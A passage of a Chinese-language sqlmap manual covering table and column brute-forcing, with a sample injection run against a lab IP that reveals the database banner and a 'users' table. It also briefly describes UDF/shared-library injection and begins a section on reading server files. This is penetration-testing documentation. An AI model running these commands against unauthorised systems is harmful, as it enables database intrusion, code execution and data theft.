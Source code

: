暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL &lt; 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```

### 暴力破解列名

参数：--common-columns

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。

## 用户自定义函数注入

* * *

参数：--udf-inject,--shared-lib

你可以通过编译MySQL注入你自定义的函数（UDFs）或PostgreSQL在windows中共享库，DLL，或者Linux/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。

## 系统文件操作

* * *

### 从数据库服务器中读取文件

参数：--file-read
